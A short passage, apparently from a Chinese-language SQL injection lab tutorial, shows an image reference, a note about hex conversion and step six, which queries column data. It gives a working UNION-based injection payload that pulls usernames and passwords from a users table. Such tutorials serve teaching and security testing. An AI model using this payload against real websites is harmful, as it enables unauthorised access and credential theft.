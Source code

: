 <img src="assets/图片12.png" alt="图片12" style="zoom:25%;" />

```
通过16进制转换后添加可得上图所示

⑥查询数据列中的数据信息

1' and 1=2 union select 1,concat(user,'---',password) from users #
```
